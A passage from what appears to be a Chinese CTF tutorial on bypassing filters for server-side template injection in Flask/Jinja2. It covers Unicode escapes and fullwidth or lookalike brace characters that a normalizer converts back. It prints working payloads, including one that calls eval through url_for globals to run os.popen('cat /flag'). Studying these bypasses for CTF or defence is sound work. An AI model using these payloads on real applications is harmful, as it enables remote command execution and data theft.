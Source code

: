 ```go
//\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f__class__
```

#### 魔改字符

这种方法是在太湖杯easyWeb这道题目学到的，上面所说的过滤双大括号，在一些特定的题目可以魔改`{{}}`，比如说这道题由于有个字符规范器可以把我们输入的文本标准化，所以可以使用这种方法

![img](https://gitee.com/eviden/img/raw/master/202406141122014.png)

可以在Unicode字符网站寻找绕过的字符，直接在网址搜索`{`，就会出现类似的字符，就可以找到`︷`和`︸`了，网址：https://www.compart.com/en/unicode/U+FE38

payload如下

```go
︷︷config︸︸



%EF%B8%B7%EF%B8%B7config%EF%B8%B8%EF%B8%B8
```

还可以使用中文的字符魔改

```go
｛ &#65371;



｝ &#65373;



［ &#65339;



］ &#65341;



＇ &#65287;



＂ &#65282;
```

payload如下

```go
｛｛url_for.__globals__［＇__builtins__＇］［＇eval＇］（＇__import__（＂os＂）.popen（＂cat /flag＂）.read（）＇）｝｝ 
```

### 总结
